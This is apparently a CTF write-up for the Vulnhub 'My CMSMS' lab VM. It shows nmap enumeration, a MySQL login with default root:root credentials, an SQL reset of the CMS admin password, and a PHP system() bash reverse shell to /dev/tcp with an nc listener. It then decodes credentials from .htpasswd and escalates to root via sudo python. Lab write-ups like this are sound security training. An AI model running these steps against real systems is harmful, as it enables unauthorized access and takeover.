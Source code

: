 ```yaml
---
title: Vulnhub - My CMSMS
description: My writeup on My CMSMS box.
categories:
 - vulnhub
tags: vulnhub 
---
```


![](https://pixelita.com/wp-content/uploads/2016/04/cmsms-logo-720.png)

Hi all, that was an awesome VM, easy but interesting.

You can find the machine there > [My CMSMS](https://www.vulnhub.com/entry/my-cmsms-1,498/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-30 00:15 EEST
Nmap scan report for mycmsms.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Home - My CMS
3306/tcp  open  mysql
```

Mysql allows remote connections, that's great! So mysql default credentials are `root:<no_password>` let's try that : 

```
$ mysql -u root -h $ip -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'xxxxx' (using password: NO)
```

Damn, then i had another idea to test for `root:root` : 

```
$ mysql -u root -h $ip -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 101
Server version: 8.0.19 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

That worked! Now on port 80 runs `CMS Made Simple` with mysql we can change admin's password! I found a great [guide](https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery){:target="_blank"}

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cmsms_db           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.007 sec)

MySQL [(none)]> use cmsms_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [cmsms_db]> show tables;
+--------------------------------+
| Tables_in_cmsms_db             |
+--------------------------------+
| ..junk tables..                |
| cms_userprefs                  |
| cms_users                      |
| cms_users_seq                  |
| cms_version                    |
+--------------------------------+
53 rows in set (0.004 sec)

MySQL [cmsms_db]> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email             | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
|       1 | admin    | fb67c6d24e756229aab021cea7605fb3 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
1 row in set (0.001 sec)

MySQL [cmsms_db]> 
```

Let's change his password now :

```
MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'pwned'))) where username = 'admin'
    -> ;
Query OK, 1 row affected (0.005 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Now we can login in, admin panel is under `/admin` -> `admin:pwned`

![](https://i.imgur.com/a6vuevX.png)

Now i stucked for lot of minutes, i was like how the fuck can i take a reverse shell. Isn't wordpress/joomla or something similar after lot of enumeration and tries i found a way :D Follow my steps, this can be useful for future CTFs :)

![](https://i.imgur.com/9dQVENX.png)

![](https://i.imgur.com/rathhHr.png)

![](https://i.imgur.com/f28egNC.png)

Now we can see the results under : `http://$ip/index.php?page=user-defined-tags`

![](https://i.imgur.com/629oShV.png)

We can simply add a reverse shell now : 

```php
system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@mycmsms:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mycmsms:/var/www/html$ 
```

Now privesc is really easy, under `/admin` we can see this :

```
www-data@mycmsms:/var/www/html/admin$ ls -la
ls -la
total 340
drwxr-xr-x  6 www-data www-data  4096 Jun 24 20:12 .
drwxr-xr-x 10 root     root      4096 May 31 04:09 ..
-rw-r--r--  1 www-data www-data   472 Mar 26 03:48 .htaccess
-rw-r--r--  1 www-data www-data    45 Jun 24 20:12 .htpasswd
```

`.htpasswd` contains a base64/base32 encoded string.

```
www-data@mycmsms:/var/www/html/admin$ cat .htpasswd
cat .htpasswd
TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=
www-data@mycmsms:/var/www/html/admin$ echo TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0= | base64 -d | base32 -d
armour:Shield@123

www-data@mycmsms:/var/www/html/admin$ su - armour
su - armour
Password: Shield@123

armour@mycmsms:~$ 
```

Now if we check `sudo -l` we can see that we run python as root : 

```
armour@mycmsms:~$ sudo -l
sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python
armour@mycmsms:~$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
root@mycmsms:/home/armour# whoami;id
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Was fun, enjoyed a lot! :D
